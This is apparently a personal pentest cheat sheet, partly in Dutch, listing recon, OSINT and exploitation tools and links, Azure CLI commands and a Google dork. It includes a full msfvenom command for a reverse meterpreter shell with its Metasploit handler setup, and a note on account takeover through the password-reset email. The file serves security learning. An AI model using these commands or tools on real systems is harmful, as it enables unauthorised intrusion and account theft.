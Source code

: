 # stuff to try and then put on a "correct" place in the step_by_Step

{url}/robots.txt
crt.sh
sublister

pestudio
procexp
procmon
cff explorer

msfconsole
systemctl start postgresql
msfdb init
db_status 
workspace -a {name}
db_nmap -sV -p- {ip}
use {exploit}
hosts -R
msfvenom #generate shell binarys fe: msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={ip} LPORT=4444 -f elf > rev_shell.elf
use exploit/multi/handler #same as nc -lvnp {port}
set payload linux/x86/meterpreter/reverse_tcp
set lhost {ip}
set lport 4444
ctrl+z #session in the background to use for later

kerbrute
go witnes
nuclei
caido
lazygit
git bisect
wpscan
dirsearch
spiderfoeot
sherlock
gitleaks

https://threatfox.abuse.ch/browse/
https://sslbl.abuse.ch/

https://learn.microsoft.com/en-us/security/

https://learn.microsoft.com/en-us/training/browse/?hideCompleted=true&levels=beginner&subjects=security&resource_type=learning%20path&roles=security-engineer

authenticate network time protocol
Als gespoofd kan ddos voor authenticatie denyen doordat time niet goed is
certificate can "expire"

MICROSoft cloud defender
intel explorer

https://docs.google.com/file/d/0B7d_gqEI7itKMTJxc0dycFhvUmM/edit?resourcekey=0-UVtEXBuq4nWE75ZNCmKw8g

https://github.com/freelabz/secator

https://github.com/hacking-support/DVUEFI

http://www.catb.org/esr/faqs/hacker-howto.html

C:\Windows\ImmersiveControlPanel\Settings\AllSystemSettings_{253E530E-387D-4BC2-959D-E6F86122E5F2}.xml

emailrep.io

dirbuster

flask-unsign

https://github.com/p1ngul1n0/blackbird
https://github.com/RevoltSecurities/Subdominator
https://github.com/Sn1r/Forbidden-Buster
https://github.com/lobuhi/byp4xx
https://github.com/iamj0ker/bypass-403
https://github.com/dirtycoder0124/formcrawler
https://github.com/shaikhsajid1111/social-media-profile-scrapers
https://github.com/m4ll0k/SecretFinder
https://github.com/martinvigo/email2phonenumber?tab=readme-ov-file
https://github.com/z0m31en7/Uscrapper
https://github.com/twelvesec/gasmask
https://github.com/un9nplayer/AutoRecon-XSS
https://github.com/gtworek/PSBits/tree/master/NetShRun
https://github.com/PaulNorman01/Forensia
https://github.com/z0m31en7/Uscrapper
https://github.com/XDeadHackerX/NetSoc_OSINT
https://github.com/lefayjey/linWinPwn
https://github.com/0x2458bughunt/SQLi-Automation
https://github.com/projectdiscovery/cdncheck
https://github.com/EmperialX/XSS-Automation-Tool
https://github.com/ethicalhackingplayground/pathbuster
https://github.com/channyein1337/jsleak
https://github.com/MattKeeley/Spoofy
https://github.com/projectdiscovery/notify
https://github.com/gwen001/gitpillage
https://github.com/securebinary/o365sprayer
https://github.com/lc/theftfuzzer
https://github.com/GerbenJavado/LinkFinder
https://github.com/tomnomnom/unfurl
https://github.com/peass-ng/PEASS-ng
https://github.com/rebootuser/LinEnum
https://github.com/DominicBreuker/pspy
https://github.com/linted/linuxprivchecker




sherlock -u ausername
gitdumper
katana
corscanner
sshbrute
intel one
eagleeye
xss2png
getallurls

site:{site.com} inurl:test | inurl:env | inurl:dev | inurl:staging | inurl:sandbox | inurl:debug | inurl:temp | inurl:internal | inurl:demo

impacket

az interactive: so no az needs to be typed each time
az upgrade
az vm list
az vm list-ip-addresses
az network public-ip list
az network nsg list --query '[].name' --output tsv

https://techcommunity.microsoft.com/t5/security-compliance-and-identity/join-our-microsoft-security-community/ba-p/927888
veeamclick.be


reset email functie,
als reset email heeft en een user id,
reset email veranderen en dan krijgj misschien email op de attackers email
